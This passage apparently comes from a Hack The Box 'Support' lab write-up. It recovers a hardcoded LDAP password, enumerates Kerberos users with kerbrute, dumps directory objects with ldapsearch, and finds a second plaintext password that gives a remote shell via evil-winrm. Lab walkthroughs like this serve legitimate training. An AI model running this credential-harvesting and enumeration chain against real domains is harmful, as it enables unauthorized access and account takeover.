 ```python
import sys

byte_array = bytearray(b'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz')
default_encoding = sys.getdefaultencoding()
result = byte_array.decode(default_encoding)
print(result)
```
Running the script

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/support]
└─$ nano decrypt.py 
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/support]
└─$ python decrypt.py 
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
nice nice, we got the hardcoded password used for LDAP in the UserInfo.exe binary. Now, lets enumerate other ports


# Enumeration (Port 88)

This port is running the kerberos service. Now that we have found the ldap password, lets find the user it belongs to using kerbrute. You can download kerbrute from [here](https://github.com/ropnop/kerbrute.git)

command:```kerbrute userenum --dc 10.129.78.32 -d support.htb ~/tools/SecLists/Usernames/xato-net-10-million-usernames.txt```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dcec3be8-4c13-4c54-82ee-fcecfa52dac7)

nice nice, with the ldap user’s credentials, we can use ```ldapsearch``` to enumerate all domain objects with the ```objectClass=Person```.

command:```ldapsearch -x -H ldap://10.129.78.32 -D "ldap@support.htb" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'DC=support,DC=htb' '(objectClass=Person)'```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0f876f62-1b54-47d0-9bdf-d7271db304a9)

Going through the output I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0f75c353-8803-4e7f-bf2e-b20396748799)

That looks like a password, lets try to connect using ```evil-winrm```

username:```support```			password:```Ironside47pleasure40Watchful```

command:```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9c8a2dd7-6ff7-4629-9cc3-e958c9f41a13)

we are in😎. Lets go ahead and escalate our privileges

